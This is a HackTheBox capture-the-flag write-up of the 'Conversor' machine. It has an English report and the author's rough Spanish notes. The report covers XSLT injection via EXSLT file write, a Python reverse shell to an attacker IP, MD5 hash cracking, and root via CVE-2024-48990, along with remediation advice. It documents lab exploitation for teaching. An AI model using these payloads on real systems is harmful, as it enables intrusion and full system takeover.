## Table of Contents

1. [Executive Summary](#executive-summary)
2. [Reconnaissance](#reconnaissance)
   - [Port Scanning](#port-scanning)
   - [Service Enumeration](#service-enumeration)
3. [Web Enumeration](#web-enumeration)
   - [Initial Access](#initial-access)
   - [Application Analysis](#application-analysis)
4. [Vulnerability Analysis](#vulnerability-analysis)
   - [XSLT Injection Identification](#xslt-injection-identification)
   - [XSLT Processor Enumeration](#xslt-processor-enumeration)
5. [Exploitation](#exploitation)
   - [XSLT File Write via EXSLT](#xslt-file-write-via-exslt)
   - [Reverse Shell](#reverse-shell)
6. [Post-Exploitation](#post-exploitation)
   - [Privilege Escalation to fismathack](#privilege-escalation-to-fismathack)
   - [Privilege Escalation to root](#privilege-escalation-to-root)
7. [Remediation Recommendations](#remediation-recommendations)
8. [Lessons Learned](#lessons-learned)
9. [References](#references)

---

## Executive Summary

This report documents the complete penetration test of the **Conversor** machine from HackTheBox. The assessment identified and exploited multiple vulnerabilities that allowed full system compromise, progressing from an unauthenticated web user to `root` privileges.

**Key Findings:**

| # | Finding | Severity |
|---|---------|----------|
| 1 | XSLT Injection leading to arbitrary file write | **Critical** |
| 2 | Hardcoded credentials in SQLite database | **High** |
| 3 | Weak password hash (MD5) | **High** |
| 4 | Sudo privilege escalation via `needrestart` (CVE-2024-48990) | **Critical** |

**Attack Path:**
```
Unauthenticated User → Registered User → XSLT File Write → Reverse Shell (www-data) 
→ Credential Extraction (SQLite) → User Pivot (fismathack) → Root (CVE-2024-48990)
```

---

## Reconnaissance
### Port Scanning
An initial full TCP port scan was performed using Nmap to identify all open ports on the target.

```bash
sudo nmap -p- -sS --min-rate=5000 -vvv -n -Pn 10.129.5.238 -oG allPorts
```

**Results:**

```
Discovered open port 22/tcp on 10.129.5.238
Discovered open port 80/tcp on 10.129.5.238

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Only two ports were exposed: SSH (22) and HTTP (80). The TTL of 63 suggests the target is one hop away, confirming it's a virtualized environment.




### Service Enumeration
A targeted service scan was executed against the identified open ports to gather version information and potential vulnerabilities.

```bash
sudo nmap -p22,80 -sCV 10.129.5.238 -oN targeted
```

**Results:**

| Port | Service | Version | Notes |
|------|---------|---------|-------|
| 22/tcp | SSH | OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 | Ubuntu Linux; protocol 2.0 |
| 80/tcp | HTTP | Apache httpd 2.4.52 (Ubuntu) | Redirects to `http://conversor.htb/` |

The HTTP service redirects to `conversor.htb`, requiring a local DNS resolution entry.

```bash
echo -n "10.129.5.238 conversor.htb" | sudo tee -a /etc/hosts
```

---

## Web Enumeration
### Initial Access
Navigating to `http://conversor.htb/login` revealed a login page with username and password fields. Initial credential guessing attempts (`admin:admin`, `admin:password`) were unsuccessful, returning "Invalid credentials".

The page offered a registration option. A test account was created with credentials `test:test` to explore the application's functionality.

### Application Analysis
After authentication, the application presented a file conversion interface called **"Conversor"**. The service claimed to convert Nmap XML scan results into more aesthetically pleasing HTML reports using custom XSLT stylesheets.


**Key Observations:**
1. **Two upload fields:** XML File and XSLT File
2. **Template download:** A "Download Template" link provided a sample XSLT file (`nmap.xslt`)
3. **File processing:** The application processes both files server-side and generates an HTML output
4. **Output storage:** Converted files are stored and accessible via `/view/<uuid>.html`

The application structure suggested potential XML/XSLT processing vulnerabilities. Initial tests included:
- Uploading the template XSLT to both fields → Generated an empty "Nmap Scan Report"
- Uploading a `.py` file → Error: `Start tag expected, '<' not found, line 1, column 1`
- Directory enumeration with Gobuster revealed `/about`, `/login`, `/register`, `/javascript`, `/logout`

### Source Code Discovery
The `/about` page revealed developer information and, critically, a **"Download Source Code"** button.

Downloading and extracting the source code revealed a Flask application with the following structure:

```
conversor.htb/
├── app.py
├── app.wsgi
├── instance/
│   └── users.db
├── scripts/
├── static/
│   ├── images/
│   ├── nmap.xslt
│   ├── source_code.tar.gz
│   └── style.css
├── templates/
└── uploads/
```

Analysis of `app.py` confirmed the backend uses Python's `lxml` library for XSLT transformations without any access control restrictions:

```python
xslt_tree = etree.parse(xslt_path)
transform = etree.XSLT(xslt_tree)
result_tree = transform(xml_tree)
```

**Critical Finding:** The absence of `etree.XSLTAccessControl()` means the XSLT processor operates with default permissive settings, allowing file system operations through EXSLT extensions.
---

## Vulnerability Analysis
### XSLT Injection Identification
XSLT (Extensible Stylesheet Language Transformations) is a Turing-complete language for transforming XML documents. When user-controlled XSLT stylesheets are executed server-side without restrictions, they can be weaponized for:
- Arbitrary file reading
- Arbitrary file writing
- Server-Side Request Forgery (SSRF)
- Remote Code Execution (RCE)

The application's design — allowing users to upload custom XSLT files — creates a textbook XSLT injection scenario.

### XSLT Processor Enumeration
To determine the capabilities of the XSLT processor, a reconnaissance stylesheet was crafted to extract system information:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:output method="html" indent="yes" />
  <xsl:template match="/">
    <html>
      <head><title>XSLT Environment</title></head>
      <body>
        <h1>XSLT Processor Info</h1>
        <div><strong>Vendor:</strong> <xsl:value-of select="system-property('xsl:vendor')"/></div>
        <div><strong>Version:</strong> <xsl:value-of select="system-property('xsl:version')"/></div>
        <div><strong>Vendor URL:</strong> <xsl:value-of select="system-property('xsl:vendor-url')"/></div>
        <div><strong>Product Name:</strong> <xsl:value-of select="system-property('xsl:product-name')"/></div>
        <div><strong>Product Version:</strong> <xsl:value-of select="system-property('xsl:product-version')"/></div>
        <h2>Available Functions Test:</h2>
        <div><strong>unparsed-text() test:</strong> <xsl:value-of select="function-available('unparsed-text')"/></div>
        <div><strong>document() test:</strong> <xsl:value-of select="function-available('document')"/></div>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

**Results:**

| Property | Value |
|----------|-------|
| Vendor | libxslt |
| Version | 1.0 |
| Vendor URL | http://xmlsoft.org/XSLT/ |
| `unparsed-text()` | `false` |
| `document()` | `true` |

The processor is **libxslt**, which supports EXSLT (Extensions to XSLT) extensions, including `exsl:document` for file write operations. Since `lxml` was not configured with `XSLTAccessControl`, these extensions are fully available.

---
## Exploitation
### XSLT File Write via EXSLT
The exploitation strategy leverages the `exsl:document` extension to write a Python reverse shell to a known writable directory within the web application. The target directory `/var/www/conversor.htb/scripts/` was identified from the source code analysis.
**Malicious XSLT Payload:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:ptswarm="http://exslt.org/common"
    extension-element-prefixes="ptswarm"
    version="1.0">
<xsl:template match="/">
<ptswarm:document href="/var/www/conversor.htb/scripts/test2.py" method="text">
import os

os.system(
    "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.174\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])'"
)
</ptswarm:document>
</xsl:template>
</xsl:stylesheet>
```

**Technical Breakdown:**

| Element | Purpose |
|---------|---------|
| `xmlns:ptswarm="http://exslt.org/common"` | Binds the EXSLT common namespace to the `ptswarm` prefix |
| `extension-element-prefixes="ptswarm"` | Declares `ptswarm` as an extension element prefix |
| `<ptswarm:document>` | EXSLT extension that writes output to a file |
| `href="/var/www/conversor.htb/scripts/test2.py"` | Target path for file write |
| `method="text"` | Writes raw text without XML escaping |

> **Note:** The `ptswarm` prefix is arbitrary — any valid XML namespace prefix can be used as long as it maps to `http://exslt.org/common`. This is a common obfuscation technique in XSLT payloads.

### Reverse Shell
**Step 1 — Start listener:**

```bash
penelope -p 4444
```

**Step 2 — Upload payload:**
A legitimate XML file (`xml_legit.xml`) and the malicious XSLT (`malicious.xslt`) were uploaded via the web interface. Upon clicking "Convert", the XSLT processor executed the stylesheet, writing the Python reverse shell to `/var/www/conversor.htb/scripts/test2.py`.
**Step 3 — Trigger execution:**
The uploaded files list showed a new HTML file. Accessing it triggered the XSLT transformation, which wrote the payload file. A second conversion was performed to ensure the file was written, and then the reverse shell was triggered.
**Step 4 — Shell obtained:**

```
[+] Got reverse shell from conversor~10.129.238.31-Linux-x86_64
[+] Shell upgraded successfully using /usr/bin/python3!
www-data@conversor:~$ whoami
www-data
```

---
## Post-Exploitation
### Privilege Escalation to fismathack
**Step 1 — Enumerate the application:**

```bash
www-data@conversor:/var/www/conversor.htb$ ls
app.py  app.wsgi  instance  __pycache__  scripts  static  templates  uploads

www-data@conversor:/var/www/conversor.htb$ cd instance
www-data@conversor:/var/www/conversor.htb/instance$ ls
users.db
```

**Step 2 — Extract credentials:**

```bash
www-data@conversor:/var/www/conversor.htb/instance$ sqlite3 users.db
sqlite> SELECT * FROM users;
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
```

**Step 3 — Crack the hash:**

```bash
$ hash-identifier
HASH: 5b5c3ac3a1c897c94caad48e6c71fdec
Possible Hashs:
[+] MD5
```

The hash was submitted to Hashes.com for cracking:

```
5b5c3ac3a1c897c94caad48e6c71fdec:Keepmesafeandwarm
```

**Step 4 — Pivot to user:**

```bash
www-data@conversor:~$ su fismathack
Password: Keepmesafeandwarm

fismathack@conversor:/var/www$ whoami
fismathack
```

**User flag obtained:**

```bash
fismathack@conversor:~$ cat user.txt
624220ebe5b19d2f480b664e4bdce957
```

### Privilege Escalation to root

**Step 1 — Sudo privileges check:**

```bash
fismathack@conversor:~$ sudo -l
User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

The user `fismathack` can execute `/usr/sbin/needrestart` with `sudo` without a password. `needrestart` is a utility that checks which daemons need to be restarted after library upgrades.
**Step 2 — Vulnerability research:**
`needrestart` has a known vulnerability tracked as **CVE-2024-48990**. The tool uses Perl's `system()` calls without proper sanitization, allowing arbitrary command execution through manipulated environment variables and file paths.

**Step 3 — Exploit execution:**
A proof-of-concept script was adapted from [https://github.com/o-sec/CVE-2024-48990](https://github.com/o-sec/CVE-2024-48990) and executed:

```bash
fismathack@conversor:/tmp/CVE-2024-48990$ ./poc.sh
[+] - setting up the environment...
[+] - starting the attack...
[+] - waiting for needrestart to run...
[+] - Exploit was successful "/tmp/bash" is created!
```

**Step 4 — Race condition:**
The exploit requires a race condition: `needrestart` must be executed via `sudo` in a separate session while the exploit script runs. This creates a SUID `bash` binary in `/tmp`.

```bash
# Terminal 1: Run the exploit
fismathack@conversor:/tmp/CVE-2024-48990$ ./poc.sh

# Terminal 2: Trigger needrestart
fismathack@conversor:~$ sudo /usr/sbin/needrestart
```

**Step 5 — Root shell:**

```bash
fismathack@conversor:/tmp$ ./bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
102c30996e513de0016911f4debbf697
```

---

## Remediation Recommendations
### Critical
1. **Disable EXSLT extensions in XSLT processing**
   - Configure `lxml` with `XSLTAccessControl` to restrict file system operations:
   ```python
   from lxml import etree
   access_control = etree.XSLTAccessControl(
       read_file=False,
       write_file=False,
       create_dir=False,
       read_network=False,
       write_network=False
   )
   transform = etree.XSLT(xslt_tree, access_control=access_control)
   ```
2. **Validate and sanitize XSLT uploads**
   - Implement a whitelist of allowed XSLT elements and attributes
   - Use a sandboxed environment for XSLT processing
   - Consider using a dedicated XSLT sandboxing library
3. **Remove NOPASSWD sudo privileges**
   - Eliminate `(ALL : ALL) NOPASSWD: /usr/sbin/needrestart` from `/etc/sudoers`
   - If `needrestart` is required, restrict it to specific users and require password authentication

### High
4. **Upgrade password hashing algorithm**
   - Replace MD5 with bcrypt, Argon2, or PBKDF2
   - Implement proper salting with unique salts per user
5. **Secure sensitive files**
   - Remove `source_code.tar.gz` from the web root
   - Restrict database file permissions (`users.db` should not be readable by `www-data`)
6. **Update `needrestart`**
   - Apply the vendor patch for CVE-2024-48990
   - Consider removing `needrestart` if not strictly necessary

### Medium
7. **Implement rate limiting on authentication endpoints**
8. **Add Content Security Policy (CSP) headers**
9. **Enable comprehensive logging and monitoring for XSLT processing**

---

## Lessons Learned
1. **XSLT is not just templating — it's a programming language.** Any application that processes user-controlled XSLT stylesheets must implement strict access controls. The default permissive behavior of `lxml`'s XSLT processor is dangerous.
2. **Source code exposure is a critical vulnerability.** The `/about` page's "Download Source Code" button provided attackers with the exact implementation details needed to craft an exploit.
3. **Weak password hashing enables lateral movement.** The use of unsalted MD5 hashes allowed rapid credential recovery, facilitating privilege escalation from `www-data` to `fismathack`.
4. **Sudo NOPASSWD on system utilities is dangerous.** Even seemingly benign tools like `needrestart` can be weaponized when executed with elevated privileges, especially when they contain command injection vulnerabilities.
5. **Defense in depth matters.** Any single one of the following controls would have prevented full system compromise:
   - XSLT access controls
   - Strong password hashing
   - Restricted sudo privileges
   - Updated `needrestart` package

---

## References

| Resource | URL |
|----------|-----|
| HackTheBox | https://www.hackthebox.com |
| XSLT Injection - PayloadsAllTheThings | https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSLT%20Injection |
| XSLT Injection Reverse Shell | https://github.com/ex-cal1bur/XSLT-Injection_reverse-shell |
| CVE-2024-48990 PoC | https://github.com/o-sec/CVE-2024-48990 |
| lxml XSLTAccessControl Documentation | https://lxml.de/xpathxslt.html#xslt |
| EXSLT Common Extensions | http://exslt.org/common/ |
| Nmap Documentation | https://nmap.org/book/ |

---

> **Disclaimer:** This writeup is for educational purposes only. The techniques described should only be used on systems you own or have explicit permission to test. Unauthorized access to computer systems is illegal.


nmap 

pasamos a la web



nos registramos puesto que no conocemos creds para entrar y nos da la opción, a ver si así nos deja ver qué más hay en la web



subir archivos? da que pensar
- verifica el tipo de archivo que subimos?
- lo interpreta?
- eso de la template qué es?
	
he probado a subir la template a los dos campos y me ha dado esto:


por si hubiera contenido visible he probado a ver la ruta pero no lo parece

y si lo vuelvo a subir? Crea otro archivo

 --> esto aparece al intentar subir un .py en el campo de en cualquier de los campos
hablando con chatgpt he averiguado qué: 

> [!NOTE]
> XSLT es donde suele estar el premio 🎁
> Aquí es donde los CTF suelen sonreír.
> Por qué XSLT es peligroso
> XSLT **no es solo plantillas**, es:
> - Un **lenguaje**
> - Con **funciones**
> - Que puede:
> 	- Acceder a documentos
>     - Llamar extensiones
>     - En algunos motores… **interactuar con el sistema**

he buscado posibles payloads y este me brindaba información:




ahora bien, tenemos que conseguir la reverse shell: he visto que el payload de intentar llamar a un archivo interno mío no funciona, por lo menos el que había en payloadallthings. 
También si nos fijamos: 
lo que hay por detrás parece php, osea que vamos enfocando un poco más, sobre cómo deberá interpretarse la reverse shell, pero falta conseguir "subirla" y que se ejecute. Pero por otro lado, despúes de haber probado con gobuster posibles directorios ocultos descubrimos que existía /about, el cual desvelaba el código fuente de la aplicación y, al revisarlo vemos que claramente lo que se utilizaba por detrás era PYTHON y no php.




hemos probado con este script que me ha dado deepseck para ver posibles funciones disponibles:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:output method="html" indent="yes" />

  <xsl:template match="/">
    <html>
      <head>
        <title>XSLT Environment</title>
        <style>
          body { background: #222; color: #ddd; }
          .info { background: #333; padding: 10px; margin: 5px; }
        </style>
      </head>
      <body>
        <h1>XSLT Processor Info</h1>
        
        <div class="info">
          <strong>Vendor:</strong> <xsl:value-of select="system-property('xsl:vendor')"/>
        </div>
        
        <div class="info">
          <strong>Version:</strong> <xsl:value-of select="system-property('xsl:version')"/>
        </div>
        
        <div class="info">
          <strong>Vendor URL:</strong> <xsl:value-of select="system-property('xsl:vendor-url')"/>
        </div>
        
        <div class="info">
          <strong>Product Name:</strong> <xsl:value-of select="system-property('xsl:product-name')"/>
        </div>
        
        <div class="info">
          <strong>Product Version:</strong> <xsl:value-of select="system-property('xsl:product-version')"/>
        </div>
        
        <h2>Available Functions Test:</h2>
        <div class="info">
          <strong>unparsed-text() test:</strong> 
          <xsl:value-of select="function-available('unparsed-text')"/>
        </div>
        
        <div class="info">
          <strong>document() test:</strong> 
          <xsl:value-of select="function-available('document')"/>
        </div>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

buscando posibles exploits de xslt injection en python encontré este: https://github.com/ex-cal1bur/XSLT-Injection_reverse-shell/tree/main


iba a funcionar porque se había hecho para esta máquina aunque aún queda investigar el por qué funciona y cómo se dieron cuenta de que sería así la manera, quiero entender el proceso mental de quien lo creó.

## Qué está haciendo realmente ese XSLT
El elemento clave es este:
```xml
<ptswarm:document href="/var/www/conversor.htb/scripts/test2.py" method="text">
```
Eso **NO es XSLT estándar**.
Eso es una **extensión**.
En libxslt existen extensiones EXSLT que permiten crear archivos durante la transformación.  
El elemento real se llama normalmente:
```
exsl:document
```
Pero aquí lo han declarado así:
```xml
xmlns:ptswarm="http://exslt.org/common"
extension-element-prefixes="ptswarm"
```
O sea:
- Está usando el namespace de EXSLT.
- Pero lo ha llamado `ptswarm`.
Eso es solo un alias. El namespace es lo importante.
## Por qué funciona en TU código
Mira tu backend:
```python
xslt_tree = etree.parse(xslt_path)
transform = etree.XSLT(xslt_tree)
result_tree = transform(xml_tree)
```
No hay:
```python
etree.XSLTAccessControl(...)
```
En lxml, si no defines `access_control`, el comportamiento por defecto es PERMISIVO.
Eso significa:
- Puede leer archivos 
- Puede escribir archivos
- Puede usar extensiones EXSLT
Entonces cuando el transformador procesa:
```xml
<ptswarm:document href="/var/www/conversor.htb/scripts/test2.py">
```
libxslt crea realmente ese archivo en el sistema.
No es magia.  
No es RCE directa.  
Es el propio motor XSLT escribiendo el archivo.
El proceso que ejecuta Flask tiene permisos sobre `/var/www/conversor.htb/`.
Así que lo crea.
## Cómo pensó esto quien lo resolvió
El razonamiento fue algo así:
### Paso 1 — Veo que usan lxml
→ Sé que debajo está libxslt.
### Paso 2 — Veo que no usan XSLTAccessControl
→ Eso significa que EXSLT puede estar activo.
### Paso 3 — Busco qué extensiones soporta libxslt
libxslt soporta:
- exsl:document → escribir archivos 

Eso es conocido y está documentado.
### Paso 4 — Si puedo escribir archivos…
Entonces me pregunto:
¿Dónde puedo escribir?
Viendo el código:
```
/var/www/conversor.htb/
```
Y probablemente exista:
```
/var/www/conversor.htb/scripts/
```
Y si esa carpeta está dentro del entorno ejecutable…
Ya tienes ejecución indirecta.

dicho esto 




tras revisar el home y ver que solo hay un user, por lo que la flag la tendrá él, ya que además probé a buscar un archivo user.txt legible con www-data que es el usuario que tienes al entrar y no había, me acordé de la bbdd que tenía la aplicación y que desde fuera no era realmente accesible porque no mostraba nada, así que la abrí ahora:




`5b5c3ac3a1c897c94caad48e6c71fdec:Keepmesafeandwarm`






Para escalar he encontrado:
[https://github.com/o-sec/CVE-2024-48990/blob/main/poc.sh](https://github.com/o-sec/CVE-2024-48990)
modifiqué el script
 
 
 
 